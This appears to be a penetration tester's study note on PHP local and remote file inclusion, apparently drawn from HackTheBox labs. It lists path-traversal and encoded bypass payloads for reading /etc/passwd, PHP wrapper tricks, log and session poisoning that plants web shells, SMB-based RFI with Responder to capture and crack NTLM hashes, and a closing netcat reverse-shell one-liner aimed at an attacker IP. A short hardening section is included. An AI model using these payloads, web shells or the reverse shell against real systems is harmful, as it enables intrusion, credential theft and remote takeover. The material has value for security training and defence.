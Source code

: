 LFI and RFI attack range from sensitive information disclosure and Cross-site Scripting to Remote Code Execution
LFI we can  view or access the Local files on the server
in LFI we can access files on system like 
Example - http://example.com/?file=filename.php
or in worst case scenario upload a malicious   code to the server 	http://example.com/?file=../../uploads/evil.php
but even if we can upload we still don't know if it will be uploaded on same server that has the LFI exploit 

# LFI
more examples :
http://example.com/?file=../../../../etc/passwd
scripts can employ search and replace techniques to avoid path traversals. For example:

Code: php
$language = str_replace('../', '', $_GET['language']);
....//....//....//....//....//....//....//....//etc/passwd

In this scenario, input such as ../../../../../etc/passwd will result in the final string to be lang_../../../../../etc/passwd, which is invalid.
../../../../../etc/passwd
Bypass with URL Encoding
On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.

In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.

The payload %2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd 
# wrappers

https://www.php.net/manual/en/wrappers.php.php

php://filter/read=/resource=/etc/passwd 
The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.

  Source Code Disclosure via PHP Wrappers
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=string.rot13/resource=/etc/passwd

# log poisoning 
default apache log file path
/var/log/apache2/access.log
in old apache servers and nginx servers logs are readable by low priv users such as www 
and the logs contain everything about the request and their User-Agent  we can use the User-Agent string to add our #RCE  
```php

<?php phpinfo(); ?> # Check for php info



<?php system($_GET['cmd']); ?> 

<?php system($_REQUEST["cmd"]); ?>

<?php echo system($_REQUEST["cmd"]); ?>

&cmd=COMMAND

```
this gets executed by the server and we can run our code 
![[Pasted image 20210930225753.png]]
similar files to do that 
/var/log/nginx/access.log,
/var/log/sshd.log, 
/var/log/mail, 
and /var/log/vsftpd.log.
/proc/self/environ file can be included, which can be poisoned through the User-Agent string.
/var/log/httpd-access.log
# RCE through PHP Session Files
default path /var/lib/php/sessions/sess_SESSION
C:\Windows/Temp
we can try and poison the session file by adding stuff after the ?example=CODE
We can see that the session file contains language preference and the selected page. Let's try poisoning the value of page by sending something through the language parameter. First, request the below URL:

http://134.209.184.216:32415/index.php?language=session_poisoning
This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd

This time the session file contains session_poisoning instead of es.php, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using the following URL:

http://134.209.184.216:32415/index.php?language=
```
<?php system($_GET['cmd']); ?>
```
We can now include the session file and use the cmd parameter to execute operating system commands.

issue with this that we can only run a command only once 

# Expect Wrapper
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.

http://blog.inlanefreight.com/index.php?language=expect://id

# base64 wrapper



```
php://filter/convert.base64encode/resource=

```



# Zip Wrapper
The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip file and include PHP code. 

The files in the zip archive can be referenced using the # symbol, which should be URL-encoded in the request
http://134.209.184.216:30489/index.php?language=zip://malicious.zip%23exec.php&cmd=id
# RFI

 RFI accrues when the allow_url_open setting (enabled by default) and allow_url_include setting have to be turned on
 then we can start a SMB or FTP or HTTP server on our machine and upload a shell code and execute commands by making the server connecting to us and get the shell 
 ![[Pasted image 20211001164936.png]]
 ![[Pasted image 20211001164956.png]]
 When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.
 ![[Pasted image 20211001165028.png]]
 example :
 =http://OURIP/FILE
 =ftp://
 
 # phpinfo lfi
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
 https://insomniasec.com/cdn-assets/LFI_With_PHPInfo_Assistance.pdf
 ![[Pasted image 20211101190518.png]]

## Also in windows
If "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks
however php doesn't prevent smb connection so what the attacker can do is host a smb server with [[PNPT/AD/Post-Compromise Enum-attacks/Tools]] and because how windows works with smb 
NTLM is a collection of authentication protocols created by Microsoft
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
4. The server retrieves the user password (or equivilent)
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.
so what the attacker can do is host smb server through responder and capture the NTLM hash and crack it 
**Example**
Hackthebox starting point **Responder** machine 

First we host our server with responder
```
sudo responder -I tun0 -dwv 

http://unika.htb/index.php?page=//10.10.16.42/somefile

echo "HASH" > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20221117223325.png]]
then we access our machine with the RFI we found 
![[Pasted image 20221117223409.png]]

 ![[Pasted image 20221117223448.png]]
 and we get the hash next we save the hash to a file 
 and crack it with john
 ![[Pasted image 20221117223509.png]]
 
# defending side 
 -  if the system() function is blocked, a log will be created about the blocked functionality being used when an attacker uses it.
 -  web applications should never display error messages to the website edit the php.ini file and verify: display_errors = Off is set
 -  To block system() in PHP, append the functions you want to block to the "disabled_functions" lines of PHP. A list of functions recommended blocking is: system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source; allow_url_fopen and allow_url_include to Off.
 -  using a docker preventing them from accessing non-web related files.  
 -  if docker isnt an option  adding open_basedir = /var/www in the php.ini file
 -  using WAF Web Application Firewall 

## If you get local file inclusion for log, you can log poison the logs



```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f') ?>